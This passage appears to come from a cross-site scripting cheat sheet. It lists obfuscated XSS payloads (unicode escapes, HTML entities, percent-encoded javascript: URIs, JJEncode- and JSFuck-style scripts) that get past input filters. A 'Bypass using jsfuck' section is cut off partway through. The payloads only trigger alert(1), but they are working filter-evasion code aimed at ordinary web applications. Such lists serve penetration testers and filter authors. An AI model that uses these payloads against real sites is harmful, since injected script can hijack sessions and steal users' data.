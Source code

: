 ```javascript
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
<script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>
```

### Bypass using jsfuck

Bypass using [jsfuck](http://www.jsfuck.com/)

```javascript
[][
  (![] + [])[+[]] +
    ([![]] + [][[]])[+!+[] + [+[]]] +
    (![] + [])[!+[] + !+[]] +
    (!![] + [])[+[]] +
    (!![] + [])[!+[] + !+[] + !+[]] +
    (!![] + [])[+!+[]]
][
  ([][
    (![] + [])[+[]] +
      ([![]] + [][[]])[+!+[] + [+[]]] +
      (![] + [])[!+[] + !+[]] +
      (!![] + [])[+[]] +
      (!![] + [])[!+[] + !+[] + !+[]] +
      (!![] + [])[+!+[]]
  ] + [])[!+[] + !+[] + !+[]] +
    (!![] +
```